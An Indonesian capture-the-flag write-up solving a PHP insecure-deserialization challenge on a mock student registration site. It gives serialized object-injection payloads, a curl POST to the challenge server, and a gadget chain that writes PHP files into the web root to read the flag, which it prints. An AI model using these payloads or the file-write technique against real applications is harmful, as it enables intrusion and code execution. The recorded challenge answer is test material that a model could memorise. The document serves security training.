 ## Pendaftaran mahasiswa

### Deskripsi

Halo Kaka, saya mau minta tolong, website kampus Ganteng Ganteng Culun saya sedang error, tidak bisa melakukan pendaftara sejak kemarin, saya bukan programmer, saya mohon bantuan kaka semua ya kak, ini [source codenya kak](https://mega.nz/file/X6ZXSKBK#R9o9PSE4IX1zNYlS5P3kRiu8Vo8A-16yfzkY4OULH8M)

[http://103.147.32.214:9000/](http://103.147.32.214:9000/)

### Solusi

Jika diperhatikan pada source `daftar.php`

```php
$mahasiswa = unserialize($_POST['nama']);
```

variable $mahasiswa melakukan unserialize terhadap `$_POST['nama']` artinya ini termasuk kedalam Object Injection pada php. selanjutnya pada file `Inc/Mahasiswa.php`

```php
if($this->isAuth){
    echo readfile("/application/src/secret.txt");
}else{
    echo "Halo " .$this->nama;
}
```

dimana variable `$this->isAuth` tidak pernah didifinisikan, secara teori `echo readfile("/application/src/secret.txt");` tidak akan pernah di eksekusi, target pertama adalah merubah variable `$this->isAuth` menjadi true sehingga `readfile("/application/src/secret.txt");` bisa tereksekusi

```php
<?php 
class Mahasiswa
{
    public function __construct()
    {
        $this->nama = "test";
        $this->isAuth = true;
    }

}

$obj = new Mahasiswa();
echo serialize($obj);
```

menjadi payload

```php
O:9:"Mahasiswa":2:{s:4:"nama";s:4:"test";s:6:"isAuth";b:1;}
```

pada saat mengirimkan payload melalui form, input hanya dibatasi 25 karanter

```html
<input type="text" name="nama" class="form-control" id="nama" required maxlength="25">
```

dengan merubah `maxlength=25` menjadi `maxlength=2500` masalah ini teratasi, atau bisa menggunakan curl command untuk mengirimkan payloadnya.

```bash
curl --location --request POST 'http://103.147.32.214:9000/daftar.php' \
--form 'nama="O:9:\"Mahasiswa\":2:{s:4:\"nama\";s:4:\"test\";s:6:\"isAuth\";b:1;}"'

```

mendapatkan hasil

```bash
______ _   _ ______ _____ _____  _____
| ___ \ | | || ___ \  __ \  __ \/  __ \
| |_/ / |_| || |_/ / |  \/ |  \/| /  \/
|  __/|  _  ||  __/| | __| | __ | |
| |   | | | || |   | |_\ \ |_\ \| \__/\
\_|   \_| |_/\_|    \____/\____/ \____/
----- PHP Generic Gadget Chains -------
```

ternyata bukan flag, merujuk pada PHP Generic Gadget Chains, artinya bisa memanfaatkan RCE atau Remote Command Execution, jika dilihat lagi source pada file `LogFile.php`

```php
class Logfile {
    public function __wakeup()
    {
        file_put_contents($this->filename, $this->content);
    }
}
```

kita bisa mengirimkan data untuk menulis file yang bisa di eksekusi, untuk itu payloadnya harus dirubah, yang perlu diperhatikan adalah file LogFile.php menggunakan magic method `__wakeup()` untuk menulis file, jadi harus menggunakan oppositenya yaitu `__construct()` 

```php
class Logfile {
    public function __construct()
    {
        $this->filename = '/application/src/info.php';
        $this->content = '<?php phpinfo();?>';
    }
}

class Mahasiswa
{
    public function __construct()
    {
        $this->nama = "test";
        $this->isAuth = new Logfile();
    }

}

$obj = new Mahasiswa();
echo serialize($obj);

```

dengan hasil payload 

```php
O:9:"Mahasiswa":2:{s:4:"nama";s:4:"test";s:6:"isAuth";O:7:"Logfile":2:{s:8:"filename";s:25:"/application/src/info.php";s:7:"content";s:18:"<?php phpinfo();?>";}}

```

payload ini akan meng-create file dengan nama info.php dengan isi `<?php phpinfo();?>` kemudian diakses melalui url `http://103.147.32.214:9000/info.php` dari hasil ini bisa diketahui beberapa fungsi php di-disable jadi harus sedikit kreatif dalam menemukan payload yang tepat.


```php
O:9:"Mahasiswa":2:{s:4:"nama";s:4:"test";s:6:"isAuth";O:7:"Logfile":2:{s:8:"filename";s:26:"/application/src/pwned.php";s:7:"content";s:62:"<?php echo readfile("/application/resources/flag/flag.txt");?>";}}

```

setelah diakses melalui url `http://103.147.32.214:9000/pwned.php` hasilnya adalah 

```
lastctf{p3rk3n4lk4n_n4m4_54y4_php_93n3r1c_94d93t_ch41n}
```

